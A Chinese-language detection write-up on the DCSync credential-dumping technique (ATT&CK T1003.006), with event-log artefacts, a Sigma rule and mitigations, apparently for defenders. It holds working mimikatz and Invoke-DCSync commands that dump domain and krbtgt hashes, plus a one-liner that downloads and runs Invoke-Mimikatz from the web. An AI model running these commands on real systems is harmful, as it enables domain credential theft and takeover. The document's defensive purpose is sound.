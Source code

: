 # T1003-006-windows-基于DCsysnc凭证获取

## 来自ATT&CK的描述

攻击者可能会通过滥用Windows域控制器的应用程序编程接口（API）来访问凭据和其他敏感信息，从而使用称为DCSync的技术来模拟来自远程域控制器的复制过程。

域控制器上的Administrators，Domain Admins和Enterprise Admin组或计算机帐户的成员能够运行DCSync来从Active Directory中提取密码数据，其中可能包括潜在有用帐户（例如KRBTGT和管理员。然后，这些散列又可以用于创建“黄金票证”，以用于“传递票证” 或更改“ 帐户操作”中所述的帐户密码。

DCSync功能已被列入“lsadump”模块中Mimikatz。Lsadump还包括NetSync，它通过旧版复制协议执行DCSync。

### DCsync

DCSync 是一种后期杀伤链攻击，允许攻击者模拟域控制器（DC）的行为，以便通过域复制检索密码数据。一旦攻击者可以访问具有域复制权限的特权帐户，攻击者就可以利用复制协议来模仿域控制器。

![img](https://s2.ax1x.com/2019/09/24/uk1Q6x.png)

**DCSync**  本身是**Mimikatz**中的一个命令，  [它](https://github.com/gentilkiwi/mimikatz) 依赖于利用Microsoft目录复制服务远程协议（MS-DRSR）中的特定命令来模拟域控制器的行为，并要求其他域控制器使用[目录复制服务远程协议](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)来复制信息  [（MS-DRSR）](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)。利用这些协议，此攻击利用了Active Directory的有效和必要功能，无法关闭或禁用它们。

### DCsync攻击原理

一般来说，DCSYNC攻击的工作方式如下：

1. 发现域控制器以请求复制。
2. 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 。
3. DC将复制数据返回给请求者，包括密码哈希值。

![img](https://s2.ax1x.com/2019/09/24/uk1ttH.gif)

DCSync的经典用例是作为[Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works) 攻击的前身，因为它可用于检索KRBTGT HASH。

### 所需权限

值得注意的是，为了执行此攻击，需要一些非常特权的权限。这就是为什么这种攻击被归类为在杀伤链攻击的后期发生的原因，并且攻击者通常需要一些时间才能获得这些权限。

通常，管理员，域管理员，企业管理员拥有所需的权限，但更具体地说，需要以下权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改

## 测试案例

DCSync是mimikatz在2015年添加的一个功能，由Benjamin DELPY gentilkiwi和Vincent LE TOUX共同编写，能够用来导出域内所有用户的hash.

**利用条件：**

获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

利用DRS(Directory Replication Service)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据

### 1.使用mimikatz

导出域内所有用户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /all /csv" exit
```

导出域内administrator帐户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /user:administrator /csv" exit
```

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```powershell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```powershell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

## 检测日志

windows 安全日志

## 测试复现

复现方法分为两类：本地、远程

### 场景:在本地运行DCsync,利用powershell脚本Invoke-Mimikatz

 在Windows域控服务器上启动powershell，然后下载Invoke-Mimikatz。

```powershell
iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
```

 完成后，我们可以使用以下命令运行DCSync。

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:0day.org"'
```

## 测试留痕

windows 安全日志，4662（在对象上已执行操作），特征值：*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2，控制访问*

## 检测规则/思路

DCSync是一个强大的工具，在红色团队成员手中，对于蓝色团队成员而言，这是一场噩梦。对于蓝队，一切都不会丢失。停止这种攻击可能不可行，但可以将其检测出来。

检测方法： 网络监控 、事件ID检测

### sigma规则

```yml
title: 在DCSync位置进行检测
description: windows server 2008 测试结果（域控本地）
references: https://yojimbosecurity.ninja/dcsync/
tags: T1003-006
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662 #在对象上已执行操作。
        Operationtype: 'Obeject Access' #操作>操作类型
        Access: '访问控制' #操作>访问
        Properties:
             - '*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出域账户
             - '*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出administrator
             - ‘*89e95b76-444d-4c62-991a-0facbeda640c*’  #特征值
    condition: selection
level: medium
```

### 建议

暂无

## 缓解措施及临时性解决方案

免受DCSync攻击的最佳保护是控制负责允许帐户复制更改的域权限。不可避免地，某些用户将拥有此权利，因此应受到保护。

为避免将特权密码详细信息存储在攻击者可能会破坏它们的位置，应使用分层的登录协议来防止特权帐户登录到可以从内存中转储其密码哈希值并用于获取执行密码所需权限的服务器和工作站。

## 参考推荐

MITRE-ATT&CK-T1003-006

<https://attack.mitre.org/techniques/T1003/006>

什么是DCSYNC？一个介绍

<https://blog.stealthbits.com/what-is-dcsync/>

域渗透——DCSync

<https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/>

DCsync利用原理

<https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47>

powershell工具实现

<https://gist.github.com/monoxgas/9d238accd969550136db>

DCsysnc检测

<https://yojimbosecurity.ninja/dcsync/>

Active Directory复制

<https://github.com/hunters-forge/ThreatHunter-Playbook/blob/master/library/active_directory_replication.md>

